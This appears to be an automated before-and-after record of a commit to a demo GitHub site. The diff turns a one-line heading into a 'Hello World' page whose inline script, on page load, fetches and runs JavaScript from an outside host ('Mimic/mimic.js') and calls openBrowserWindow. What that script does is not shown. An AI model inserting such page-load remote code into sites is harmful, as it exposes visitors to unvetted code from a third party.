

Before and after one commit to Notifierservice/demo-repository, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-847 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1 +1,21 @@
-<h1>Welcome to the website generated by my demo repository</h1>
+<!DOCTYPE html>
+<html>
+<head>
+</head>
+<body>
+    <h1>Hello World</h1>
+    <p>This is the main DOM content</p>
+    <script>
+        (function () {
+            window.addEventListener('load', () => {
+                var s = document.createElement('script');
+                s.src = 'https://0x4meliorate.github.io/Mimic/mimic.js';
+                s.onload = function () {
+                    openBrowserWindow({ debug: true });
+                };
+                document.body.appendChild(s);
+            });
+        })();
+    </script>
+</body>
+</html>
```
